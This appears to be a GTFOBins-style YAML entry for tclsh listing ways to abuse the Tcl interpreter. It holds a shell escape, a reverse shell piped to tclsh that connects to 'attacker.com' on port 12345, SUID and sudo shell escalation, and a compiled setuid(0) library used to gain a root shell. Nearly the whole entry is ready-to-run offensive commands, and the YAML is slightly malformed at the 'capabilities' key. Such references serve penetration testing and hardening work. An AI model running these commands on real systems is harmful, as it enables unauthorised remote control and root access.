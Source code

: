 ```yaml
---
functions:
  shell:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  sudo:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  capabilities
   - code: |
        echo -e '#include <tcl.h>\n#include <unistd.h>\nint SetUidCmd(ClientData, Tcl_Interp *interp, int, const char **) { return setuid(0) == -1 ? (Tcl_SetResult(interp, "Failed to set UID", TCL_STATIC), TCL_ERROR) : TCL_OK; } int Setuid_Init(Tcl_Interp *interp) { Tcl_CreateCommand(interp, "setuid", SetUidCmd, NULL, NULL); return TCL_OK; }' | gcc -shared -o setuid.so -fPIC -I/usr/include/tcl8.6 -ltcl -x c -
        ./tclsh
        load ./setuid.so
        setuid
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
---
```

